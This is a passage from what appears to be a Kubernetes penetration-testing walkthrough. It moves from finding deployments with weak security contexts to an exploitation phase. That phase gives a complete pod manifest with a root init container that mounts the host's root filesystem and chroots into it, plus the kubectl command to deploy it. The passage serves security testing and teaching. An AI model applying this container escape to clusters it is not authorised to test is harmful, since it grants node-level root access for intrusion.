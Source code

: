      *  **Explanation:**  This command searches deployments and statefulsets for vulnerable security contexts and init containers.
     *  **Why:**  Deployments and statefulsets define the pod specifications that are applied. If a vulnerable configuration exists in a deployment, every pod created from that deployment will likely be vulnerable.
     *  **Expected Output:** Similar to the pod listing, YAML output containing deployment and statefulset specifications.

**Phase 2: Exploitation - Gaining Node Access**

This example assumes a vulnerable init container with a `hostPath` volume mount and running as root. Adjust the steps according to the specific vulnerabilities identified.

1.  **Create a pod with a vulnerable init container.** Let's say the init container has a `hostPath` volume mounted to `/host` and runs as root. The following YAML definition describes such a pod. Save the below to `pod.yaml`:

    ```yaml
    apiVersion: v1
    kind: Pod
    metadata:
      name: exploit-pod
      namespace: default
    spec:
      initContainers:
        - name: exploit-init
          image: busybox:latest
          command: ["/bin/sh", "-c", "chroot /host bash -c 'echo \"Hacked!\" > /tmp/hacked.txt'"]
          volumeMounts:
            - name: host-volume
              mountPath: /host
          securityContext:
            runAsUser: 0  # Running as root
      containers:
        - name: pause
          image: k8s.gcr.io/pause:latest
      volumes:
        - name: host-volume
          hostPath:
            path: /  # Mounting the root filesystem
    ```

    *   **Explanation:** This YAML defines a pod named `exploit-pod` with an init container named `exploit-init`. The init container uses the `busybox:latest` image and mounts the host's root filesystem (`/`) to `/host`.  Crucially, it runs as root (UID 0). It then executes a command to write "Hacked!" to a file named `/tmp/hacked.txt` on the host.  The `pause` container is a placeholder that prevents the pod from immediately exiting.
    *   **Why:** This pod definition is designed to exploit the vulnerability by leveraging the root access within the init container to modify files on the host filesystem.
    *   **Expected Output:**  No direct output initially.

2.  **Deploy the pod:**

    ```bash
    kubectl apply -f pod.yaml
    ```
